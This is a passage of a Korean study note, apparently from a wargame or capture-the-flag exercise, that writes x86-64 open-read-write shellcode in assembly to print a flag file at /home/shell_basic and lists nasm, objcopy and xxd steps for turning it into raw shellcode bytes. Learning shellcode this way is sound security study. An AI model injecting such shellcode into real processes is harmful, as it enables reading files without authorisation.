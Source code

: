 ## Write를 어셈블리어로 바꾸기

write(1,buf,0x100);

출력은 stdout으로 할 것이므로 rdi값은 1이며 rsi와 rdx값은 read에서 사용한 값을 그대로 사용한다.

stdin = 0

stdout = 1

stderr = 2

```bash
mov rdi,1; rdi값 설정
mov rax,1; rax값 설정
syscall ; Write 호출
```

## 어셈블리어 종합

```bash
$ cat shell_code.asm
section .text
global _start
_start:
	push 0x00               ;rsp와 opcode간 구분을 위한 0x00 push 0x01(헤더시작)을 push해도 가능한 듯 함 일반적으로는 Null값을 넣는 듯
	push 0x676e6f6f6f6f6f6f ;oooooong
	push 0x6c5f73695f656d61 ;ame_is_l
	push 0x6e5f67616c662f63 ;c/flag_n
	push 0x697361625f6c6c65 ;ell_basi
	push 0x68732f656d6f682f ;/home/sh

	mov rdi, rsp ; rdi에 문자열이 저장된 주소 저장
	xor rsi, rsi ; O_RDONLY는 0이므로 rsi에 0 저장
	xor rdx, rdx ; 파일을 읽을 때 mode는 의미를 갖지 않으므로 rdx도 0 설정
	mov rax, 2 ; rax값은 2로 설정
	syscall ; rax,rdi,rsi,rdx다 설정하였으므로 open 호출

	mov rdi, rax ; rdi에 open의 결과값인 fd저장
	mov rsi, rsp ; rsi에 rsp값 저장
	sub rsi, 0x100 ; rsi에 0x100만큼 공간 확보
	mov rdx, 0x100 ; rdx는 읽어들일 문자열의 크기 저장
	xor rax, rax ; rax값을 0으로 설정
	syscall ; Read실행

	mov rdi,1; rdi값 설정
	mov rax,1; rax값 설정
	syscall ; Write 호출
```

1. open, read, write (orw문제)를 어셈블리어로 작성한다. shellcode.asm파일을 만든다.
2. nasm - f elf64 shellcode.asm 으로 컴파일한다.(32비트면 elf64→elf)
3. objcopy —dump-section .text=shellcode.bin shellcode.o 로 쉘코드로 만든다.
4. xxd shellcode.bin 으로 쉘코드를 출력한다.
